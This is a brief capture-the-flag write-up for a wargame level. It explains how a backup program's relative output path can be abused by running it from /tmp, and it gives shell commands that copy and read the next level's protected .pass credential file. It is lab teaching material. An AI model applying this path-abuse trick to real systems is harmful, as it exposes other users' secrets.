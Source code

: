 We have an executable that asks for a filename as parameter.
It opens the file and then proceeds to store the result in a backup file it creates.

It tries to create a file in ./backups/ + path of initial file
As it creates a relative path, we can execute the program from anywhere and it will create the file were we are.

We can then cd into /tmp to make sure we have the necessary rights.

```
cd /tmp
mkdir -p /tmp/backups//home/users/level09/
~/level08 /home/users/level09/.pass
cat /tmp/backups//home/users/level09/.pass
```

